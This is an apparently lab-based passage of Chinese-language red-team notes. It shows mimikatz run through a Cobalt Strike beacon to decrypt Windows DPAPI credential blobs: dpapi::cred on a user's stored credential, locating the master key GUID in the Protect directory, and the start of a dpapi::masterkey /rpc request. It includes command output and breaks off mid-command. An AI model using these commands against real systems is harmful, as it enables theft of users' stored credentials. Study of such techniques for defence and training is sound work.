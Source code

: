 ```
要解密凭据，需要找到```master encryption key```

执行```dpapi::cred```,指定要解密的凭据路径
```
 beacon> mimikatz dpapi::cred /in:C:\Users\bfarmer\AppData\Local\Microsoft\Credentials\9D54C839752B38B233E5D56FDD7891A7

BLOB
  dwVersion          : 00000001 - 1
  guidProvider       : {df9d8cd0-1501-11d1-8c7a-00c04fc297eb}
  dwMasterKeyVersion : 00000001 - 1
  guidMasterKey      : {a23a1631-e2ca-4805-9f2f-fe8966fd8698}
  dwFlags            : 20000000 - 536870912 (system ; )
  dwDescriptionLen   : 00000030 - 48
  szDescription      : Local Credential Data

  algCrypt           : 00006603 - 26115 (CALG_3DES)
  dwAlgCryptLen      : 000000c0 - 192
  dwSaltLen          : 00000010 - 16
  pbSalt             : f8fb8d0f5df3f976e445134a2410ffcd
  dwHmacKeyLen       : 00000000 - 0
  pbHmackKey         : 
  algHash            : 00008004 - 32772 (CALG_SHA1)
  dwAlgHashLen       : 000000a0 - 160
  dwHmac2KeyLen      : 00000010 - 16
  pbHmack2Key        : e8ae77b9f12aef047664529148beffcc
  dwDataLen          : 000000b0 - 176
  pbData             : b8f619[...snip...]b493fe
  dwSignLen          : 00000014 - 20
  pbSign             : 2e12c7baddfa120e1982789f7265f9bb94208985
```

guidMasterKey包含解密所需密钥的 GUID，上面是：```a23a1631-e2ca-4805-9f2f-fe8966fd8698```

```pbData```就是我们要解密的内容

也可以在这个目录```AppData\Roaming\Microsoft\Protect```上找到GUID
> The Master Key information is stored within the user's AppData\Roaming\Microsoft\Protect directory (where S-1-5-21-* is their SID).

```
 beacon> ls C:\Users\bfarmer\AppData\Roaming\Microsoft\Protect\S-1-5-21-3263068140-2042698922-2891547269-1120

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
 740b     fil     02/21/2021 11:49:40   a23a1631-e2ca-4805-9f2f-fe8966fd8698
 928b     fil     02/21/2021 11:49:40   BK-DEV
 24b      fil     02/21/2021 11:49:40   Preferred
```



知道了GUID，利用mimikatz获取masterkey，需要system或管理员权限
```
 beacon> mimikatz dpapi::masterkey /in:C:\Users\bfarmer\AppData\Roaming\Microsoft\Protect\S-1-5-21-3263068140-2042698922-2891547269-1120\a23a1631-e2ca-4805-9f2f-fe8966fd8698 /rpc
